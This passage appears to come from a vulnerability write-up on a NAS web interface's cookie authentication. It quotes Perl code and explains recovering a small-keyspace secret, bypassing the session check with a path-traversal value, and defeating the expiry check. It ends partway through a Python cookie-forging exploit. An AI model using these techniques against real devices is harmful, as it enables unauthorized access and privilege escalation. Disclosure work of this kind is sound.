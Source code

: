 The cookie is authenticated by a hash of its values and uses the secret to build said hash:
```perl
my $hash = sha1_hex($secret .
                    sha1_hex(join ':', $secret, $type, $ip_address, $now,
                             $_persists, $expires_when, $last, $user_name));
```

Since the keyspace of the secret value is so small, it is easily recovered offline by anyone in possession of a cookie. This lets users that had any cookie at any point in time create cookies at any time for any users, including users with more privileges.

Worst yet, it's possible to remotely bruteforce the secret value by generating 65k cookies with all possible values. In order to do this, two checks have to be bypassed: the session and timeout checks.
The session check is performed in ```/nas/http/scripts/Apache/SessionTrack.pm```. It verifies whether the ```time``` value of the cookie exists on disk in the ```/nas/http/sessions/``` folder:
```perl
sub validate_session {
   my $sess_file = $ticket{'time'};
   my $full_file_name = $sess_dir . $sess_file;
   if (-e $full_file_name) {
      my ($atime, $mtime) = (stat($full_file_name))[8,9];
      utime(time, $mtime, $full_file_name);
      return (1, 'ok');
   }
}
```

This check can be bypassed with a path traversal, by supplying ```'time'='../logs/access_log'``` which resolves to a path that always exists, thus validating the condition.

The second bypass is the timeout check, performed in ```/nas/http/scripts/Apache//TicketTool.pm```:
```perl
sub check_expiration {
    my $now = time;
    my $issued = $ticket{'time'};
    my $ticket_expires = $ticket{'expires'};

    $expired = ($now - $issued)/60 > $ticket_expires;
    if ($expired) {
        my $exceeded = $ticket_expires/60;
        $msg = "$exceeded hour maximum session time exceeded.";
    }
}
```

I don't really speak perl but it looks like trying to substract a text string from a number string simple causes the result to be the unchanged number string. So supplying an expiration date bigger than ```time``` (which returns the current timestamp) bypasses this check.

Note that if we didn't have these two bypasses, it may still be possible to guess a correct session by monitoring the timings of the server's responses, although the current operation order (hash then filesystem check) may render this attack impractical.

Let's put together the full exploit in python3 for good measure:
```python
#!/usr/bin/env python3
import requests
import hashlib
import sys

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def generate_cookie(secret):
    secret = '{:05}\n'.format(secret)
    ticket_type = 'User'
    ip_address = sys.argv[1]
```